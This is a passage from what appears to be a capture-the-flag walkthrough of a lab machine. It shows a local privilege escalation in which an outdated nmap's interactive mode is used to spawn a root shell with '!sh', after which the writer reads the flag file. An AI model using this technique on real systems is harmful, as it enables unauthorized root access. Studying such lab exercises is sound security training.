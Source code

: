 only `nmap` looks any interesting. [This article](https://pentestlab.blog/category/privilege-escalation/) explains what I am trying to replicate here.

```
robot@linux:~$ nmap -V
nmap -V

nmap version 3.81 ( http://www.insecure.org/nmap/ )
```

website name as insecure :D

```
robot@linux:~$ nmap --interactive
nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> ls
ls
Unknown command (ls) -- press h <enter> for help
nmap> !sh
!sh
# ls
ls
key-2-of-3.txt  password.raw-md5
# whoami
whoami
root
```

pwned!
